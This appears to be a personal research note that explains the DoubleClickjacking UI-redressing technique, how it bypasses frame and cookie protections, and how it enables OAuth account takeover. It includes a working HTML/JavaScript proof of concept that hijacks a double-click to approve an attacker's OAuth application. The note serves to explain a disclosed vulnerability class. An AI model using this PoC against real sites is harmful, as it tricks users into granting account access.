

# DoubleClickjacking: A New Era of UI Redressing


[Clickjacking](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Clickjacking.md) is becoming less practical as modern browsers set all cookies to “SameSite: Lax” by default [^1]. [](https://read.readwise.io/read/01jpympafdzagwks0x135y58y9)

This significantly reduces the risk of successful clickjacking attacks, as most interesting functionality on websites typically requires authentication. [](https://read.readwise.io/read/01jpymqbbah3rsj70jb77vq3e3)

**DoubleClickjacking** is a new variation on this classic theme: [^2] instead of relying on a single click, it takes advantage of a double-click sequence. [](https://read.readwise.io/read/01jpymra27av4x1ykk4y8fp6xh)
This opens the door to new UI manipulation attacks that bypass all known clickjacking protections, including the `X-Frame-Options` header, CSP's `frame-ancestors` and `SameSite: Lax/Strict` cookies. [](https://read.readwise.io/read/01jpymsmbzmbm9evfrrr46qch3)

## Root Cause

DoubleClickjacking exploits a timing and event-order quirk: [](https://read.readwise.io/read/01jpymtmq34dfckdkrskj24zhb)

1. The attacker creates an initial webpage with a button that opens a new window (or just opens a new window without user interaction).
2. When the user clicks this button:
	- A new window opens on top, asking the user to “double-click.”
	- This new window immediately uses window.opener.location to change the parent window’s location to the target page.
	- The parent window now contains the target page (e.g., OAuth authorization), while the top window still shows the double-click prompt.
3. When the user attempts the requested double-click:
	- The first click (triggered on mousedown) causes the top window to close.
	- The second click lands on the now-exposed authorization button in the parent window.
	- The user unknowingly authorizes the attacker’s application into their account with arbitrary scope.



DoubleClickjacking leverages the small gap between the **start** of a click and the **end** of the second click in multiple windows [](https://read.readwise.io/read/01jpyn12cbeh9raevtqatcjy4s)

Attackers load (or open) a new window for a legitimate seeming reason—like a “captcha verification,” for example. Then, just before the second click is pressed, the malicious site can quickly swap in a more sensitive window from the same browser session (e.g., an OAuth authorization prompt), effectively hijacking that second click. [](https://read.readwise.io/read/01jpyn21qh7vyejcae35erzt29)

There are many ways to perform the “swap,” the most reliable and smooth method I found uses `window.open.location`. [](https://read.readwise.io/read/01jpyn2cx63599skrhzkwp9e97)

One of the important pieces of this attack is exploiting the timing difference between `mousedown` and `onclick` events (favoring `mousedown` over `click`). The `mousedown` event fires immediately when the user presses the mouse button, while the `click` event waits for the complete click action so there is a few ms of delay we can siphon for the attack. [](https://read.readwise.io/read/01jpyn3wv558feb2w33nrdsfy1)

## Exploitation

**How It Can Be Exploited**
- **OAuth & API Permissions**: Attackers could trick targets into authorizing a malicious application with extensive privileges. This technique has unfortunately led to account takeovers in almost every site that supports [OAuth 2.0](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/OAuth%202.0.md) - which is pretty much all major websites with an API support. [](https://read.readwise.io/read/01jpyn5vdmwfjpt6h6hmmanpw7)

- **One-Click Account Changes**: Similar to classic clickjacking, DoubleClickjacking can be used to make the user click on account-setting changes, such as disabling security settings, deleting an account, authorizing access or money transfers, or confirming transactions, etc. [](https://read.readwise.io/read/01jpyn6fye27pt0t2xejmsjx1a)

### PoC

Below is a code snippet that can be used to create a PoC for this vulnerability class: [](https://read.readwise.io/read/01jpyn6twhhj0pwk65vjdmae5y)

```html
<script>
function openDoubleWindow(url, top, left, width, height) {
    var evilWindow = window.open(window.location.protocol+"//"+
  		window.location.hostname+":"+
  		window.location.port+"/random", 
  	"_blank");

    evilWindow.onload = function() {
        evilWindow.document.open();

        //plugs the page to be hijacked as opener returnee
        evilWindow.document.write(`
            <script>
            setTimeout(function() { 
                opener.location = "${url}"; 
            }, 1000);

            </scri`+`pt>
            
            <div id="doubleclick" type="button" class="button" 
                style="top: ${top}px; left: ${left}px; width: ${width}px; height: ${height}px; position: absolute; font-size: 16px; color: white; background-color: #3498db; box-shadow: 5px 5px 10px rgba(0, 0, 0, 0.3); display: flex; justify-content: center; align-items: center; font-weight: bold; text-shadow: 1px 1px 2px rgba(0, 0, 0, 0.3); cursor: pointer; border-radius: 20px; text-align: center; padding: 0 5px; transition: all 0.3s ease;" onmouseover="this.style.backgroundColor='#2980b9'; this.style.boxShadow='6px 6px 12px rgba(0, 0, 0, 0.4)'; this.style.transform='scale(1.05)';" 
                onmouseout="this.style.backgroundColor='#3498db'; this.style.boxShadow='5px 5px 10px rgba(0, 0, 0, 0.3)'; this.style.transform='scale(1)';">Double Click Here</div>
<script>
      document.getElementById('doubleclick').addEventListener('mousedown', function() {
       window.close();
       });
       </scr`+`ipt>`);
        
        evilWindow.document.close();
    };
}
</script>

<!-- Replace value's below with the URL and top, left, width, height of a button you want to doublejack with -->

<button onclick="openDoubleWindow('https://target.com/oauth2/authorize?client_id=attacker',647, 588.5, 260, 43)">Start Demo</button>
```

This can also be done in mobile phones by asking target to "DoubleTap". [](https://read.readwise.io/read/01jpyqjdtx7kxsgq0839ap69vn)

P.S: Note that windows can be opened on top of the whole browser (instead of as a tab), hiding the fact that the opener has changed location (and all tabs) [](https://read.readwise.io/read/01jpyqm9qemex41pp8gewhf144)

[^1]: [SameSite Cookie Attribute](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/SameSite%20Cookie%20Attribute.md)

[^2]: [Pierluigi Paganini - DoubleClickjacking Allows Clickjacking on Major Websites](Pierluigi%20Paganini%20-%20DoubleClickjacking%20Allows%20Clickjacking%20on%20Major%20Websites.md)

